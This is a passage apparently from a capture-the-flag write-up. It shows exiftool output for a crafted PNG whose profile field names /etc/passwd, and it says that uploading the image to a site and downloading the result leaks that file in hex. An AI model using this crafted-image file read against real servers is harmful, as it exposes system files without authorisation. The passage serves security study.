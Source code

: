     Interlace                       : Adam7 Interlace
    Profile                         : /etc/passwd
    SRGB Rendering                  : Perceptual
    Gamma                           : 2.2
    Pixels Per Unit X               : 11811
    Pixels Per Unit Y               : 11811
    Pixel Units                     : meters
    Image Size                      : 1920x1080
    Megapixels                      : 2.1

After uploading this to the site and downloading the result, we get a file with the contents of `/etc/passwd` in hex:

    exiftool 652565526c078.png 

    >>

    ExifTool Version Number         : 12.40
    File Name                       : 652565526c078.png
    Directory                       : .
    File Size                       : 6.7 KiB
    File Modification Date/Time     : 2023:10:10 22:53:24+08:00
    File Access Date/Time           : 2023:10:10 22:53:24+08:00
    File Inode Change Date/Time     : 2023:10:10 22:53:24+08:00
    File Permissions                : -rw-rw-r--
    File Type                       : PNG
    File Type Extension             : png
    MIME Type                       : image/png
    Image Width                     : 960
    Image Height                    : 540
    Bit Depth                       : 8
    Color Type                      : RGB
    Compression                     : Deflate/Inflate
    Filter                          : Adaptive
    Interlace                       : Noninterlaced
    Gamma                           : 2.2
    White Point X                   : 0.3127
    White Point Y                   : 0.329
    Red X                           : 0.64
    Red Y                           : 0.33
    Green X                         : 0.3
    Green Y                         : 0.6
    Blue X                          : 0.15
    Blue Y                          : 0.06
    Background Color                : 255 255 255
    Pixels Per Unit X               : 11811
    Pixels Per Unit Y               : 11811
    Pixel Units                     : meters
    Modify Date                     : 2023:10:10 14:53:07